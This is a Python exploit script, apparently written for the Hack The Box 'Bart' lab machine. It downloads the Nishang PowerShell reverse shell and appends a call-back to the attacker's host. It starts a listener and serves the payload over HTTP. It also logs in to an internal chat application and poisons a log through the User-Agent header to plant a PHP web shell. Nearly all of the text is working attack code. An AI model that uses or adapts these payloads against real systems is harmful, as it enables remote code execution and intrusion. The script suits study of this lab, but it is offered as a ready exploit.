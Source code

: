 ```py
''' Setting up something important '''                                                                   
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Setar o handler
def handler(lport,rhost):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %rhost) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Mount the payload
def mountPayload(lhost,lport):
    print("[+] Let's download the Nishang reverse [+]")
    os.system("wget -q -c https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1")
    print("[+] Download Ok! [+]")
    print("[+] Let's add the call to reverse shell! [+]")
    file = open('Invoke-PowerShellTcp.ps1', 'a')
    file.write('Invoke-PowerShellTcp -Reverse -IPAddress %s -Port %s' %(lhost,lport)) 
    file.close()
    print("[+] Call added! [+]")

def login(rhost,user,password):
	url = "http://internal-01.%s:80/simple_chat/login.php" %rhost
	headers = {"Content-Type": "application/x-www-form-urlencoded", "Origin": "http://internal-01.bart.htb", "Referer": "http://internal-01.bart.htb/simple_chat/login_form.php"}
	data = {"uname": "%s" %user, "passwd": "%s" %password, "submit": "Login"}
	r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
	
def uploadMalicious(rhost):
	headers={'User-Agent':'0x4rt3mis: <?php system($_REQUEST["cmd"]); ?>'}
	print("[+] Let's upload our malicious php!!! [+]")
	r = requests.get('http://internal-01.%s/log/log.php?filename=cmd.php&username=harvey' %rhost, proxies=proxies, headers=headers)
	print("[+] Great, we done it! [+]")

```